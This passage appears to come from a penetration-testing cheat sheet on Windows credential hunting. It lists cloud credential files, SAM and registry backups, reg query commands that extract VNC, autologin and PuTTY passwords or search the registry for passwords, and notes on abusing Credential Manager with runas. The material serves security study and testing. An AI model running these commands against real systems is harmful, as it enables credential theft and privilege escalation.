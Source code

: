 ```bash
SiteList.xml
.aws\credentials
.azure\accessTokens.json
.azure\azureProfile.json
gcloud\credentials.db
gcloud\legacy_credentials
gcloud\access_tokens.db

%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```
{% endtab %}
{% endtabs %}

## Registry

```shell
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4" /v password # VNC credentials
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*" # En PS
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP Paramters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty
reg query HKLM /f password /t REG_SZ /s # Search for password in registry
reg query HKCU /f password /t REG_SZ /s # Search for password in registry
```

## Credential Manager (SaveCreds)

Windows has a runas command that allows users to execute commands with the privileges of other users. This usually requires knowledge of the other user's password. However, Windows also allows users to save their credentials on the system using something called Credential Manager, and these saved credentials can be used to bypass this requirement. If the runas command is not found, we can try uploading a binary.

